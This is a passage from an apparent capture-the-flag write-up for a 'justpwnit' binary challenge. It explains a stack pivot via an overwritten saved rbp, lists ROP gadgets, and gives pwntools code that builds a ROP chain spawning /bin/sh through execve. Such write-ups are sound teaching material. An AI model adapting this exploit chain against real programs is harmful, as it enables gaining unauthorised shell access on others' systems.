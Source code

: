 The saved `$rbp` has been overwritten with a pointer to the user input. Then, at the end of the `set_element` function, `$rbp` is popped from the stack and contains a pointer to the user input. Which causes at the end of the `justpwnit` function, the `leave` instruction moves the pointer to the user input in `$rsp`.

## ROPchain

Once we can pivot the stack to makes it point to some user controlled areas, we just have to rop through all the gadgets we can find in the binary.
The binary is statically linked, so we can't make a ret2system, we have to make a `execve("/bin/sh\0", NULL, NULL)`.

And so what we need is:
- pop rdi gadget
- pop rsi gadget
- pop rdx gadget
- pop rax gadget
- syscall gadget
- mov qword ptr [reg], reg [to write "/bin/sh\0"] in a writable area

We can easily find these gadgets with the help (ROPgadget)[https://github.com/JonathanSalwan/ROPgadget].
We got:

```
0x0000000000406c32 : mov qword ptr [rax], rsi ; ret
0x0000000000401001 : pop rax ; ret
0x00000000004019a3 : pop rsi ; ret
0x00000000004013e9 : syscall
0x0000000000403d23 : pop rdx ; ret
0x0000000000401b0d : pop rdi ; ret
```

Now we just have to craft the ropchain !

```py
POP_RDI = 0x0000000000401b0d
POP_RDX = 0x0000000000403d23
SYSCALL = 0x00000000004013e9
POP_RAX = 0x0000000000401001
POP_RSI = 0x00000000004019a3

MOV_RSI_PTR_RAX = 0x0000000000406c32
PT_LOAD_W = 0x00000000040c240

pld = pwn.p64(0) + pwn.p64(POP_RSI) + b"/bin/sh\x00"
pld += pwn.p64(POP_RAX) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(MOV_RSI_PTR_RAX)
pld += pwn.p64(POP_RAX) + pwn.p64(0x3b)
pld += pwn.p64(POP_RDI) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(POP_RSI) + pwn.p64(0)
pld += pwn.p64(POP_RDX) + pwn.p64(0x0)
pld += pwn.p64(SYSCALL)
```
